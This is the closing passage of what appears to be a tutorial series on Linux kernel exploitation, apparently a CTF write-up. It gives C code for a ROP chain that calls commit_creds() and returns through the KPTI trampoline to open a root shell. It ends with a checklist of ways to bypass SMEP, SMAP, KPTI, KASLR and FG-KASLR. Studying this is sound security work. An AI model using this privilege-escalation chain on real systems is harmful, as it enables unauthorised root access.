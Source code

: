 ## Stage 4: calling commit_creds() and open root shell
Finally, we use the ROP chain one last time to calle `commit_creds()`:
```C
void stage_4(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_rbp_ret; // return address
    payload[off++] = returned_creds_struct; // rdi <- returned_creds_struct
    payload[off++] = 0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(returned_creds_struct)
    payload[off++] = kpti_trampoline; // swapgs_restore_regs_and_return_to_usermode + 22
    payload[off++] = 0x0; // dummy rax
    payload[off++] = 0x0; // dummy rdi
    payload[off++] = (unsigned long)get_shell;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload to call commit_creds(returned_creds_struct)");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```

After stage 4, we have successfully opened a root shell under this fully protected environment.

{{% callout %}}
In the original writeup, the authors stated that some how the state is corrupted and they can only open `/dev/sda` to read the flag file while not being able to open a root shell. This doesn't seem to be the case for me since my exploit can open a stable shell just fine. I don't really know why it happens because the idea of the 2 exploits are the same, the only differences are in the way we code our exploit.
{{% /callout %}}

## Summary
And that concludes this series. We have come to this point where we have a collection of techniques to bypass all of the most modern mitigation features in the Linux kernel. Below is a summary of the techniques we have used accross 3 parts:
1. If the kernel has no protection, use `ret2usr`.
2. If it has `SMEP`, use `ROP` to `commit_creds(prepare_kernel_cred(0))`. 
3. If overflow is limited on the stack, use a `pivot gadget`.
4. If it has `KPTI`, modify `ROP` to use `KPTI trampoline` or `signal handler`.
5. If it has `SMAP`, stack pivot is no longer viable.
6. If it has `KASLR`, a single leak of a `.text` address is sufficient.
7. If it has `FG-KASLR`, make use of regions that are unaffected and `ksymtab`.
